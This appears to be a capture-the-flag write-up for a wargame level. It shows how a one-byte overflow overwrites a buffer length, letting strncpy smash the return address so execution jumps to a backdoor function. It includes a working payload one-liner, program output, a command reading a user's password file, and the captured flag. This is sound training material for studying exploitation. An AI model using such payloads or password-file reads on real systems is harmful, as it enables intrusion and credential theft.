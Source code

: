 # Buffer overflow write of size 1

see source.c

## Analysis

At first sight, we didn't see anything strange. So we tested program on gdb with different input size, looking at the stack and saw that we had written more than 40 bytes, so we could rewrite buffer len.
Then we said " Ahahah"  we could write so much more than 140 bytes with strncpy by replacing buffer len !!
Which character could we use to rewrite more ? 0xff ! We then locate eip of handle_msg and rewrite it to target `secret_backdoor()`

Then GG ! c:

## Exploit

```
(python -c "print('A' * 40 + '\xff')"; python -c "print('B' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')"; cat) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
